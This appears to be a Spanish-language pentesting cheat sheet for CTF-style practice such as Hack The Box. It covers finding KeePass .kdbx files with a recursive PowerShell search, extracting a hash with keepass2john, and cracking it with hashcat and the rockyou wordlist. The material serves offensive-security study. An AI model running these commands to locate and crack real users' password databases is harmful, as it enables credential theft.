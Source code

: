 
## DESCRIPTION

ENUMERACION
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

#### Mas información
* 


## EXPLOITATION

### OPTION 1: HASHCAT

```
#SACAR A UN FORMATO HASH
keepass2john Database.kdbx > keepass.hash

#MIRAR EL CODIGO DE HASHCAT
hashcat --help | grep -i "KeePass"

#CRACKING
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force

```



## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 